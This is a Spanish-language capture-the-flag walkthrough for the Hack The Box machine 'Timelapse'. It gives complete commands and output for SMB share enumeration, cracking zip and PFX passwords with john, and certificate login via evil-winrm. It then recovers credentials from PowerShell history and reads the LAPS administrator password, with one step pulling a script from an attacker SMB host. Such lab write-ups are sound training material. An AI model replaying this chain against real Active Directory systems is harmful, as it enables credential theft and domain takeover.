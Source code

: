10.10.11.152 - Timelpase
------------------------

Puertos: 53(dns),88(kerberos),135(rpc),139(ldap),445(smb),464,593,636,3269,3268,5986(winrm),9389
- Nombre: timelapse.htb

```console
└─$ smbmap -H 10.10.11.152 -u 'test'
	IPC$                                              	READ ONLY	Remote IPC
	Shares                                            	READ ONLY	
└─$ smbmap -H 10.10.11.152 -u 'test' -r "Shares"
	dr--r--r--                0 Mon Oct 25 21:40:06 2021	Dev
	dr--r--r--                0 Mon Oct 25 17:55:14 2021	HelpDesk
└─$ smbmap -H 10.10.11.152 -u 'test' -r "Shares/Dev"
	fr--r--r--             2611 Mon Oct 25 23:05:30 2021	winrm_backup.zip
└─$ smbmap -H 10.10.11.152 -u 'test' -r "Shares/HelpDesk"
	fr--r--r--          1118208 Mon Oct 25 17:55:14 2021	LAPS.x64.msi
	fr--r--r--           104422 Mon Oct 25 17:55:14 2021	LAPS_Datasheet.docx
	fr--r--r--           641378 Mon Oct 25 17:55:14 2021	LAPS_OperationsGuide.docx
	fr--r--r--            72683 Mon Oct 25 17:55:14 2021	LAPS_TechnicalSpecification.docx
└─$ smbmap -H 10.10.11.152 -u 'test' --download "Shares/Dev/winrm_backup.zip"

└─$ unzip 10.10.11.152-Shares_Dev_winrm_backup.zip
[10.10.11.152-Shares_Dev_winrm_backup.zip] legacyy_dev_auth.pfx password:
└─$ zip2john 10.10.11.152-Shares_Dev_winrm_backup.zip > hash
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
supremelegacy    (10.10.11.152-Shares_Dev_winrm_backup.zip/legacyy_dev_auth.pfx)
└─$ unzip winrm_backup.zip
[10.10.11.152-Shares_Dev_winrm_backup.zip] legacyy_dev_auth.pfx password: supremelegacy
```
Los archivos pfx sirven para crear llaves con ellos.
```console
└─$ openssl pkcs12 -in ./legacyy_dev_auth.pfx -nocerts -out llave_legacy.key
Enter Import Password:
└─$ /usr/share/john/pfx2john.py ./legacyy_dev_auth.pfx > hash
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
thuglegacy       (legacyy_dev_auth.pfx)
└─$ openssl pkcs12 -in ./legacyy_dev_auth.pfx -nocerts -out llave_legacy.key
# Tanto como password como PEM pass que nos piden ponemos "thuglegacy"
└─$ openssl pkcs12 -in ./legacyy_dev_auth.pfx -nokeys -out certificado.pem
```
```
└─$ evil-winrm -i 10.10.11.152 -k llave_legacy.key -c certificado.pem -S
*Evil-WinRM* PS C:\Users\legacyy\Documents>

*Evil-WinRM* PS C:\Users\legacyy\Documents> copy \\10.10.14.16\carpeta\enumeracion_windows.bat
```
- Vemos que en el historial de comandos en Powershell hay creds svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV

```console
└─$ evil-winrm -i 10.10.11.152 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
```
- Nuestro usuario está en LAPS_READERS
```console
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> Get-ADComputer DC01 -property 'ms-mcs-admpwd'
ms-mcs-admpwd     : EB71J5m-1V-18@%z#w9&4L3x

└─$ evil-winrm -i 10.10.11.152 -u 'administrator' -p 'EB71J5m-1V-18@%z#w9&4L3x' -S
*Evil-WinRM* PS C:\Users\Administrator\Desktop> whoami
timelapse\administrator
```
